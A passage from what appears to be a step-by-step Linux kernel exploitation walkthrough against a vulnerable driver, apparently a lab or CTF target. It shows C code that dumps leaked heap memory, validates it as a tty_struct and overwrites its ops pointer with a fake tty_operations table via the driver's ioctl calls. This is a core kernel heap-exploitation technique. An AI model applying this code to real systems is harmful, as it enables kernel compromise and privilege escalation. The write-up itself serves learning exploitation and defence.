 ```c
    free(leaked_data);
    goto cleanup;
}

// printf("[+] dumping leaked data...\n"); to verify if its a tty struct 
for (size_t i = 0; i < (target_size/2); i += 16) {
    printf("0x%016lx\t", *(uint64_t*)&leaked_data[i]);
    if (i + 8 < target_size) {
        printf("0x%016lx\n", *(uint64_t*)&leaked_data[i + 8]);
    } else {
        printf("\n");
    }
}

// This function works similar to how we discussed in 4th point.
if (validate_tty_struct(leaked_data, target_size)) {
    // discussed in next point :D
    return 0;
} else {
    printf("[-] Leaked data does not appear to be tty_struct\n");
}
```


#### 10. change the `ops*` to point to our table (`next + some_offset`).

```c
struct tty_struct_layout *tty = (struct tty_struct_layout*)leaked_data;
printf("  tty_operations pointer: 0x%lx\n", tty->ops);
// waitenter();
// Perform KASLR bypass
tty->ops = tty_table_address;
// save the tty_struct pointer with vulnfd
if (ioctl(vuln_fd, USE_WRITE, leaked_data) != 0) {
perror("USE_WRITE failed");
free(leaked_data);
goto cleanup;
}
memset(&leaked_data[0], 0, target_size);
if (ioctl(vuln_fd, USE_READ, leaked_data) != 0) {
  perror("USE_READ failed");
  free(leaked_data);
  goto cleanup;
}
printf("[+] Successfully wrote tty_struct to vuln_fd again to verify\n");
printf(" tty_operations pointer: 0x%lx\n", ((struct tty_struct_layout *)leaked_data)->ops);
free(leaked_data);
waitenter(); // waits for user to press enter character, gives me time to attach gdb manually if required.
}   
```
